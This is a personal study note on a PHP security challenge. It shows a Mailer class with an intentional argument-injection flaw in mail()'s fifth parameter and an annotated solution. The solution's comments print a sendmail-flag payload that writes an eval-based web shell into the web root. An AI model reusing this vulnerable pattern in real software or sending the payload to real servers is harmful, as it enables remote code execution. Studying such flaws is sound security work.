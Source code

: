 :PROPERTIES:
:ID:        6db1885e-bc6f-4965-b170-27f9732b342f
:ROAM_REFS: https://twitter.com/ripstech/status/1154752480611373058
:END:
#+title: rips-56
#+filetags: :vcdb:php:

* Description

* Code
#+begin_src php
class Mailer {
    private function sanitize($email) {
        if(!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if(!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if(!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if(!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if(!isset($data['message'])) {
            $data['message'] = '';
        }

        mail($data['to'], $data['subject'], $data['message'], '', "-f" . $data['from']);
    }
}
$mailer = new Mailer();
$mailer->send($_POST);

#+end_src

* Solution
#+begin_src php
class Mailer {
    private function sanitize($email) {
        // 2) $email is user input. this filter is not 
        // enough to prevent argument injection later in
        // step 3
        if(!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if(!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if(!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if(!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if(!isset($data['message'])) {
            $data['message'] = '';
        }
        // 3) argument injection in parameter 5 ($data['from'])
        mail($data['to'], $data['subject'], $data['message'], '', "-f" . $data['from']);
    }
}
$mailer = new Mailer();
// 1) send receives user input as argument
$mailer->send($_POST);

// [1] https://blog.sonarsource.com/why-mail-is-dangerous-in-php?redirect=rips
//
// var_dump(!filter_var('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php', FILTER_VALIDATE_EMAIL));
// bool(false)
// php > echo sanitize('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php');
// ''\''a."'\''\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php'
// php > echo escapeshellcmd(sanitize('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php'));
// ''\\''a."\'\\\'\'\\ -OQueueDirectory=\\%0D\<\?=eval\(\$_GET\[c\]\)\?\>\\ -X/var/www/html/"@a.php\'

// $ cat /tmp/test-mail.sh
// #!/bin/sh
// 
// echo "$@" >> /tmp/test-mail.log
// 
// $ grep sendmail_path /etc/php7/php.ini
// sendmail_path = /tmp/test-mail.sh

// $ cat /tmp/test-mail.log
// -faaa@bbb.ru
// -f\a.\'\\'\'\ -OQueueDirectory=\%0D\<\?=eval\($_GET\[c\]\)\?\>\ -X/var/www/html/@a.php'

// mail(
//     string $to,
//     string $subject,
//     string $message,
//     array|string $additional_headers = [],
//     string $additional_params = ""
// ): bool
//
// additional_params (optional)
// The additional_params parameter can be used to pass additional flags
// as command line options to the program configured to be used when
// sending mail, as defined by the sendmail_path configuration
// setting. For example, this can be used to set the envelope sender
// address when using sendmail with the -f sendmail option.
// 
// This parameter is escaped by escapeshellcmd() internally to prevent
// command execution. escapeshellcmd() prevents command execution, but
// allows to add additional parameters. For security reasons, it is
// recommended for the user to sanitize this parameter to avoid adding
// unwanted parameters to the shell command.
// 
// Since escapeshellcmd() is applied automatically, some characters that
// are allowed as email addresses by internet RFCs cannot be used. mail()
// can not allow such characters, so in programs where the use of such
// characters is required, alternative means of sending emails (such as
// using a framework or a library) is recommended.
// 
// The user that the webserver runs as should be added as a trusted user
// to the sendmail configuration to prevent a 'X-Warning' header from
// being added to the message when the envelope sender (-f) is set using
// this method. For sendmail users, this file is /etc/mail/trusted-users.


#+end_src